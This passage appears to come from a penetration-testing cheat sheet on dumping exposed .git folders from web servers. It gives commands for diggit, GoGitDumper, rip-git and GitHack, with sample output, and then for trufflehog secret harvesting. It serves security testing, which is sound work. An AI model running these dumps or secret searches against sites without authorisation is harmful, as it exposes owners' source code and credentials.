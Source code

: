 ### Automatic way : diggit.py

```powershell
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

### Automatic way : GoGitDumper

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://urlhere.com/.git/ -o yourdecideddir/.git/
git log
git checkout
```

### Automatic way : rip-git

```powershell
perl rip-git.pl -v -u "http://edge1.web.*****.com/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692  
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

### Automatic way : GitHack

```powershell
git clone https://github.com/lijiejie/GitHack
GitHack.py http://www.openssl.org/.git/
```

### Harvesting secrets : trufflehog

> Searches through git repositories for high entropy strings and secrets, digging deep into commit history

```powershell
pip install truffleHog # https://github.com/dxa4481/truffleHog
truffleHog --regex --entropy=False https://github.com/dxa4481/truffleHog.git
```

### Harvesting secrets : Gitrob
